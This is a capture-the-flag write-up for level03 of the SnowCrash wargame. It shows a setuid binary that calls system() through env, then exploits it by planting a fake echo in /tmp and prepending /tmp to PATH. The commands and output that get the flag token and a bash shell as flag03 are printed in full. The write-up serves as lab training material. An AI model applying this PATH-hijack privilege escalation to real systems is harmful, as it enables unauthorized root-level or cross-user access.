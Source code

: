 ## level03

We’re presented with a binary owned by `flag03`

```bash
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03 
Exploit me
```

Let’s see what it does under the hood using `ltrace` (mental pin for future me: try ltrace before starting to reverse engineer with GDB, ref or IDA: stay simple!)

```bash
level03@SnowCrash:~$ ltrace ./level03 
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                 = 2003
geteuid()                                                 = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)       = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)       = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 0
+++ exited (status 0) +++
```

So the program gets the current groupid and uid and then sets them.

There’s an actual stackoverflow discussion on why this code is vulnerable: 

[What is vulnerable about this C code?](https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code)

The problem is that `echo` is called from `env` so if we were to write our own version of `echo` and get the `env` to call that one instead we could exec arbitrary code… and to do so as the file’s owner so `flag03`.

We don’t have write permission in out home so let’s write our own `echo` in `/tmp` and let’s add `/tmp` at the start of `PATH` envariable so that our `echo` is the first one to fire.

```bash
level03@SnowCrash:~$ echo "getflag" > /tmp/echo
level03@SnowCrash:~$ chmod 777 /tmp/echo
level03@SnowCrash:~$ export PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

To be clear (like in the last example on stackoverflow) if we were to write in `echo` a call to bash we’d get a bash as flag03

```bash
level03@SnowCrash:~$ echo "/bin/bash" > /tmp/echo
level03@SnowCrash:~$ ./level03 
bash: /home/user/level03/.bashrc: Permission denied
flag03@SnowCrash:~$ # <--- see the username
```

### Key Learnings
- Env invocation by a privileged user -> Privilege escalation by providing replacement to built-in command